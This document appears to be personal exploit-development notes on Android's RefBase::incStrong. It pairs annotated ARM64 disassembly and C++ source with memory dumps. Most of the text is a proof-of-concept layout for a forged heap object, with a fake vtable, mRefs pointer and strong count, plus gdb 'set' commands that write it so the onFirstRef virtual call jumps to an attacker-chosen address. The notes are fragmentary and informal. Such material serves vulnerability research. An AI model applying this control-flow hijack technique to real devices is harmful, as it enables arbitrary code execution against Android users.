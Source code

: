 RefBase::incStrong
_ZNK7android7RefBase9incStrongEPKv:

=> 0x0000007fb7f4c1d4 <+0>:	stp	x29, x30, [sp, #-32]!
   0x0000007fb7f4c1d8 <+4>:	mov	x29, sp
   0x0000007fb7f4c1dc <+8>:	str	x19, [sp, #16]      // x19 <- the heap object an attacker controls
   0x0000007fb7f4c1e0 <+12>:	ldr	x19, [x0, #8]
   0x0000007fb7f4c1e4 <+16>:	mov	x0, x19
   0x0000007fb7f4c1e8 <+20>:	bl	0x7fb7f48a50 <_ZN7android7RefBase12weakref_type7incWeakEPKv@plt>
   0x0000007fb7f4c1ec <+24>:	ldxr	w1, [x19]
   0x0000007fb7f4c1f0 <+28>:	add	w0, w1, #0x1    // incStrong (plus 1)
   0x0000007fb7f4c1f4 <+32>:	stlxr	w2, w0, [x19]
   0x0000007fb7f4c1f8 <+36>:	cbnz	w2, 0x7fb7f4c1ec <_ZNK7android7RefBase9incStrongEPKv+24>
   0x0000007fb7f4c1fc <+40>:	mov	w3, #0x10000000            	// #268435456
   0x0000007fb7f4c200 <+44>:	cmp	w1, w3
   0x0000007fb7f4c204 <+48>:	b.eq	0x7fb7f4c214 <_ZNK7android7RefBase9incStrongEPKv+64>  // b.none
   0x0000007fb7f4c208 <+52>:	ldr	x19, [sp, #16]
   0x0000007fb7f4c20c <+56>:	ldp	x29, x30, [sp], #32
   0x0000007fb7f4c210 <+60>:	ret
   0x0000007fb7f4c214 <+64>:	mov	w4, #0xf0000000            	// #-268435456
   0x0000007fb7f4c218 <+68>:	ldxr	w5, [x19]
   0x0000007fb7f4c21c <+72>:	add	w6, w5, w4
   0x0000007fb7f4c220 <+76>:	stlxr	w7, w6, [x19]
   0x0000007fb7f4c224 <+80>:	cbnz	w7, 0x7fb7f4c218 <_ZNK7android7RefBase9incStrongEPKv+68>
   0x0000007fb7f4c228 <+84>:	ldr	x0, [x19, #8]
   0x0000007fb7f4c22c <+88>:	adrp	x10, 0x7fb7f4c000 <_ZN7android11PropertyMap6Parser5parseEv+760>
   0x0000007fb7f4c230 <+92>:	add	x11, x10, #0x130
   0x0000007fb7f4c234 <+96>:	ldr	x8, [x0]                    //vtable    (debug here!!!)
   0x0000007fb7f4c238 <+100>:	ldr	x9, [x8, #16]
   0x0000007fb7f4c23c <+104>:	cmp	x9, x11
   0x0000007fb7f4c240 <+108>:	b.eq	0x7fb7f4c208 <_ZNK7android7RefBase9incStrongEPKv+52>  // b.none
   0x0000007fb7f4c244 <+112>:	blr	x9
   0x0000007fb7f4c248 <+116>:	b	0x7fb7f4c208 <_ZNK7android7RefBase9incStrongEPKv+52>

void RefBase::incStrong(const void* id) const
{
    weakref_impl* const refs = mRefs;
    refs->incWeak(id);

    refs->addStrongRef(id);
    const int32_t c = android_atomic_inc(&refs->mStrong);
    ALOG_ASSERT(c > 0, "incStrong() called on %p after last strong ref", refs);
#if PRINT_REFS
    ALOGD("incStrong of %p from %p: cnt=%d\n", this, id, c);
#endif
    if (c != INITIAL_STRONG_VALUE)  {
        return;
    }

    android_atomic_add(-INITIAL_STRONG_VALUE, &refs->mStrong);
    refs->mBase->onFirstRef();  //haonotes
}

0x0000005581707cb8
x0: 0x7fb7b55000

0x7fb7b55000:	0x0000005594a4acb8(mutable; idk y)	0x0000007fb7b51040 (x19 / mrefs)
...
0x7fb7b51040:	0x0000000010000000	0x0000007fb7b55000


POC: *(addr)
addr:       addr+24 (vptr)
addr+8 :    addr + 16       <- mrefs
addr+16 :   0x10000000      <- x19
addr+24 :   ...(vtable)
addr+32 :
addr+40 :   addr + 48
addr+48 :   0xdeadbeef

addr+64 :   0xcafebabe      <-pc! ldr x9, [x8, #16] ; blr	x9

set *(0x7fb7b55000)=0xb7b55000+24
set *(0x7fb7b55000+4)=0x7f

set *(0x7fb7b55000+8)=0xb7b55000+16
set *(0x7fb7b55000+12)=0x7f

set *(0x7fb7b55000+16)=0x10000000

set *(0x7fb7b55000+24)=0xb7b55000+40
set *(0x7fb7b55000+28)=0x7f

set *(0x7fb7b55000+40)=0xb7b55000+48
set *(0x7fb7b55000+44)=0x7f

set *(0x7fb7b55000+48)=0x61616161
set *(0x7fb7b55000+52)=0x61616161

set *(0x7fb7b55000+64)=0x61616161
set *(0x7fb7b55000+68)=0x61616161

###Debug at 0x0000007fb7f4c234
x0:Our object

0x7fb7b55000:	0x0000005594a4acb8	0x0000007fb7b51040 (x19 / mrefs)
                |
                |
                |
                |--------->>>



